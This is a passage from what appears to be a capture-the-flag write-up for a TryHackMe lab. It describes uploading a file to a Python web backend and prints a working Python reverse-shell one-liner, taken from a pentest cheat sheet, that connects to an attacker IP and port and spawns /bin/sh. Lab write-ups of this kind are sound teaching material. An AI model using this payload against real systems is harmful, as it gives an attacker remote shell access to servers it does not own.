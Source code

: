 A website's backend written in `python`... Maybe `django` or `flask`? Anyways, it has a upload function! Maybe we can upload a python reverse shell?

**Create a python reverse shell:** (From [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))

**revshell.py:**
```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.61.134",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

**Upload it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Develpy/images/a4.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Develpy/images/a5.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Develpy/images/a6.png)

